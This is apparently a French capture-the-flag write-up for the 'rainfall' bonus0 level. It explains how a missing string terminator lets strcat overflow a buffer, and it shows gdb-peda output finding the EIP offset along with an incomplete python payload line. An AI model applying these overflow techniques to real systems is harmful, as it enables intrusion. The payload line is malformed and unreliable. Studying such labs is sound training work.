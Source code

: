 - en lisant le code et en l'executant on comprend qu'il y a un bug/faille
- dans la fonction pp le \0 de la 1er string est remplacer par un espace
- se qui fait quequand la premiere string est entierement remplis il considere str1 et str2 comme une string
- str2 est donc copier a la fin de str1 + str2 dans strcat
- Dans gdb on voit donc qu'on peut ecrire sur la variable $eip
<pre>
gdb-peda$ pattern create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r
Starting program: /home/alarm/rainfall/bonus0/Ressources/bonus0 
 - 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
 - 
AAA%AAsAABAA$AAnAACAA-AA(AADAA
iiiiiiiiiiiiiiiiiiiiAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EIP: 0x416e4141 ('AAnA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x416e4141
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x416e4141 in ?? ()
gdb-peda$ pattern offset AAnA
<strong>AAnA found at offset: 13</strong>
</pre>

```
(python -c "print('A' * 19)" && python -c "print('B' * 13 + <address> + 'B' + 3)") | ltrace ./bonus0
```
